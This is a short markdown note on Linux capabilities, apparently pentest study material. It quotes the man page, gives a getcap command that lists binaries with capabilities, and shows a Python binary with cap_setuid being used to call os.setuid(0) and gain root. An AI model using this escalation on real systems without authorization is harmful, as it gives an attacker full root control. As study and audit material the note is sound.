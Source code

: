 # [Linux Capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)

> Starting with kernel 2.2, Linux divides the privileges traditionally associated with a superuser into distinct units known as *capabilities*, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

---

## [Short Description of Each Capability](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

---

## List All Binaries with Capabilities

```bash
getcap -r / 2>/dev/null
```

---

## Exploit Python `cap_setuid` Capability

```bash
$ getcap -r / 2>/dev/null
...
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
...

$ python3.8
>>> import os
>>> os.setuid(0)
>>> # do things
```